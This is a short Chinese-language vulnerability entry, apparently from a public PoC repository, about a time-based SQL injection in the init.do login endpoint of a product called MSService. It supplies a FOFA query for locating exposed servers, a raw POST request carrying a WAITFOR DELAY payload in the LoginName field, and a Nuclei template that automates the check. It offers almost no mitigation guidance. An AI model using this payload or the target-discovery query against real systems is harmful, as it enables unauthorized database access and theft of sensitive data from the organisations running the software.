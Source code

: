 ## MSService服务init.do接口处存在SQL注入漏洞

MSService 服务init.do接口处存在SQL注入漏洞。这可能导致泄露敏感数据、破坏数据库完整性，甚至获取对数据库的完全控制。

## fofa

```
title="MSService 服务"
```

## poc

```yaml
POST /init.do HTTP/1.1
Content-Length: 70
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Connection: close

{"LoginName":"1001' WAITFOR DELAY '0:0:3'-- znSL","password":"123456"}
```

![image-20240628170742181](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406281707254.png)

### Nuclei POC

```yaml
id: MSService-init_do-SQL
info:
  name: MSService 服务init.do接口处存在SQL注入漏洞
  author: kingkong
  severity: high
  metadata:
    fofa-query: title="MSService 服务"

http:
  - raw:
      - |
        POST /init.do HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
        Accept-Encoding: gzip, deflate
        DNT: 1
        Upgrade-Insecure-Requests: 1
        Content-Type: application/json
        Connection: close

        {"LoginName":"1001' WAITFOR DELAY '0:0:3'-- znSL","password":"123456"}

    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
          - "duration>=3  && duration<=6 && status_code==200"
```

